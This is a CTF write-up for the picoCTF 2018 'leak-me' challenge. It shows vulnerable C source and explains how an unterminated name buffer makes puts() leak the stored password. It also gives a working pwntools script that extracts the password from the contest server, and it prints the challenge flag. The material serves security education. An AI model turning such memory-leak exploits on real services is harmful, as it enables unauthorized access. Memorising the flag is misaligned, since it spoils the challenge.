 # leak-me
**Points: 200**

## Binary Exploitation

## Question
>Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 23685. Source.

### Hint
>Are all the system calls being used safely?
>Some people can have reallllllly long names you know..

## Solution

Let's check the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```
The name variable is set using a strange method:
```c
fgets(name, sizeof(name), stdin);
char *end = strchr(name, '\n');
if (end != NULL) {
  *end = '\x00';
}
```
Using strchr the character '\n' is searched, but what appends if the program doesn't find '\n'? The end char of name won't be '\x00'
On the next line we have:
```c
strcat(name, ",\nPlease Enter the Password.");
```
The program concats our name to that string without checking the length, so the variable name won't have the end char '\x00' so we'll be able to leak the content of the next variable:
`puts(name);`
This is because puts will print until '\0'

```python
#!/usr/bin/python3
from pwn import *

p = remote("2018shell.picoctf.com", 23685, level='error')
passwordValue = 'A'*256
p.recvuntil('name?\n')
p.sendline('A'*256)
p.recvuntil(',')
password = p.recvline()
p.close()

p = remote("2018shell.picoctf.com", 23685)
p.recvuntil('name?\n')
p.sendline('manulqwerty')
p.recvuntil('Password.\n')
p.sendline(password)
print(p.recvline().decode('utf-8'))
p.close()
```

![alt text](https://github.com/manulqwerty/picoCTF-2018-WriteUp/blob/master/Binary%20Exploitation/leak%20me/images/1.png)

### Flag
`picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_ee6111c9}`
